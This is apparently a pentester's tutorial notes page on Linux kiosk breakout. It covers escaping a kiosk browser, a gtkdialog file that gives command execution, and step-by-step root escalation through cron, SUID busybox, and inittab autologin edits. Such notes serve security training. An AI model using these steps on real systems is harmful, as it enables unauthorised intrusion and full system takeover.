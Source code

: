```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Linux_Kiosk_Breakout
---
```


<span style="font-size: 35px; color:red"><b>Linux Kiosk Breakout</b></span>
&nbsp;

```shell
sudo apt install tigervnc-viewer
```

Use <span style="color:red">xtigervncviewer</span> to connect.

If the kiosk presents a browser page, try:
- <span style="color:red">file:///var/www/localhost/ </span>
- <span style="color:red">file:///var/www/localhost/index.html </span>
- <span style="color:red">chrome://, ftp://, mailto:, smb://, irc:// </span>

Some of these might open a pop-up window that allows you to <span style="color:red">browse</span> and choose the program you want to use to open the link.
Interesting ones to exploit: <span style="color:red">gtkdialog</span>, <span style="color:red">firefox</span> (to open another firefox window with another profile, unlocking new functions on upper right corner)

If you can access the tools, search <span style="color:red">Web Developer </span> > <span style="color:red">Scratchpad</span>.

You can create the following script and save it as <span style="color:red">terminal.txt</span> to get Local Code Execution:
```html
<window>
  <vbox>
    <vbox scrollable="true" width="500" height="400">
        <edit>
          <variable>CMDOUTPUT</variable>
          <input file>/tmp/termout.txt</input>
        </edit>
    </vbox>
    <hbox>
      <text><label>Command:</label></text>
      <entry><variable>CMDTORUN</variable></entry>
      <button>
          <label>Run!</label>  
          <action>$CMDTORUN > /tmp/termout.txt</action>
          <action>refresh:CMDOUTPUT</action>  
      </button>
    </hbox>
  </vbox>
</window>
```

And call it from Firefox like <span style="color:red">irc://asd -f <path_to_terminal.txt></span>.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Privilege Escalation</b></span>
Check SUID: <span style="color:red">find / -perm -u=s -exec ls -al {} +</span>
Check running root processes: <span style="color:red">ps aux</span>
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Example of Privilege Excalation</b></span>
Openbox running as root process, if you run <span style="color:red">openbox --replace</span> it will reset everything and re-create the <span style="color:red">/home/guest/.mozilla/firefox/c3pp43bg.default/bookmarks.html</span> file. This allows you to write into privileged directories (<span style="color:red">ln -s /usr/bin /home/guest/.mozilla/firefox/c3pp43bg.default</span>).
You can create a script like the following (<span style="color:red">testscript.sh</span>):
```shell
echo "#!/bin/bash" > /etc/cron.hourly/bookmarks.html
echo "chown root:root /home/guest/busybox" >> /etc/cron.hourly/bookmarks.html
echo "chmod +s /home/guest/busybox" >> /etc/cron.hourly/bookmarks.html
```
This will set SUID bit on our local busybox file using chronojobs.
Once done, create a <span style="color:red">runterminal.sh</span>:
```shell
#!/bin/bash
/usr/bin/gtkdialog -f /home/guest/terminal.txt
```
and execute it like <span style="color:red">/home/guest/busybox sh /home/guest/runterminal.sh</span> to get root shell.

To get a better shell as root, run <span style="color:red">xdotool key Ctrl+Alt+F3</span> in our gtkdialog terminal. If nothing pops up, run:
```shell
cp /etc/X11/xorg.conf.d/10-xorg.conf /home/guest/xorg.txt
chmod 777 /home/guest/xorg.txt
```

To then comment out "DontVTSwitch" in <span style="color:red">/home/guest/xorg.txt</span>. Copy it back to its original location:
```shell
cp /home/guest/xorg.txt /etc/X11/xorg.conf.d/10-xorg.conf
```
and re-configure permissions:
```shell
chmod 644 /etc/X11/xorg.conf.d/10-xorg.conf
```
Run <span style="color:red">openbox --replace</span> again.

```shell
cp /etc/inittab /home/guest/inittab.txt
chmod 777 /home/guest/inittab.txt
```

Under the <span style="color:red">standard console login</span> section under the two commented lines, add a TTY like:
<span style="color:red">c3::respawn:/sbin/agetty --noclear --autologin root 38400 tty3 linux</span>

```shell
cp /home/guest/inittab.txt /etc/inittab
chmod 600 /etc/inittab
/sbin/init q
```
Then create a scratchpad like:
```shell
#!/bin/bash
killall x11vnc 
x11vnc -rawfb vt3
```
make it executable and run it. You should be kicked out of the session. When you will reconnect, you should have root access.
